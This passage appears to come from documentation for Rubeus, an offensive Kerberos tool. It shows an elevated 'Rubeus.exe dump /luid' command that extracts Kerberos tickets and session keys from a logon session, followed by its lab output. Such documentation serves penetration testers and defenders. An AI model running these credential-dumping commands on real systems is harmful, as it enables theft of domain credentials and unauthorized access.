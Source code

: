 
**Elevated** extraction of tickets from a specific logon session:

    C:\Rubeus>Rubeus.exe dump /luid:0x47869cc

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3



    [*] Action: Dump Kerberos Ticket Data (All Users)

    [*] Target LUID: 0x47869cc

    UserName                 : harmj0y
    Domain                   : TESTLAB
    LogonId                  : 0x47869cc
    UserSID                  : S-1-5-21-883232822-274137685-4173207997-1111
    AuthenticationPackage    : Negotiate
    LogonType                : Interactive
    LogonTime                : 2/11/2019 11:05:31 PM
    LogonServer              : PRIMARY
    LogonServerDNSDomain     : TESTLAB.LOCAL
    UserPrincipalName        : harmj0y@testlab.local

        [*] Enumerated 3 ticket(s):

        ServiceName              : krbtgt/TESTLAB.LOCAL
        TargetName               : krbtgt/TESTLAB.LOCAL
        ClientName               : harmj0y
        DomainName               : TESTLAB.LOCAL
        TargetDomainName         : TESTLAB.LOCAL
        AltTargetDomainName      : TESTLAB.LOCAL
        SessionKeyType           : rc4_hmac
        Base64SessionKey         : u9DOCzuGKAZB6h/E/9XcFg==
        KeyExpirationTime        : 12/31/1600 4:00:00 PM
        TicketFlags              : name_canonicalize, pre_authent, renewable, forwarded, forwardable
        StartTime                : 2/11/2019 3:21:53 PM
        EndTime                  : 2/11/2019 8:19:13 PM
        RenewUntil               : 2/18/2019 3:19:13 PM
        TimeSkew                 : 0
        EncodedTicketSize        : 1306
        Base64EncodedTicket      :

        doIFFjCCBRKgAwIBBaEDAgEWoo...(snip)...

        ServiceName              : krbtgt/TESTLAB.LOCAL
        TargetName               : krbtgt/TESTLAB.LOCAL
        ClientName               : harmj0y
        DomainName               : TESTLAB.LOCAL
        TargetDomainName         : TESTLAB.LOCAL
        AltTargetDomainName      : TESTLAB.LOCAL
        SessionKeyType           : aes256_cts_hmac_sha1
        Base64SessionKey         : tKcszT8rdYyxBxBHlkpmJ/SEsfON8mBMs4ZN/29Xv8A=
        KeyExpirationTime        : 12/31/1600 4:00:00 PM
        TicketFlags              : name_canonicalize, pre_authent, initial, renewable, forwardable
        StartTime                : 2/11/2019 3:19:13 PM
        EndTime                  : 2/11/2019 8:19:13 PM
        RenewUntil               : 2/18/2019 3:19:13 PM
        TimeSkew                 : 0
        EncodedTicketSize        : 1338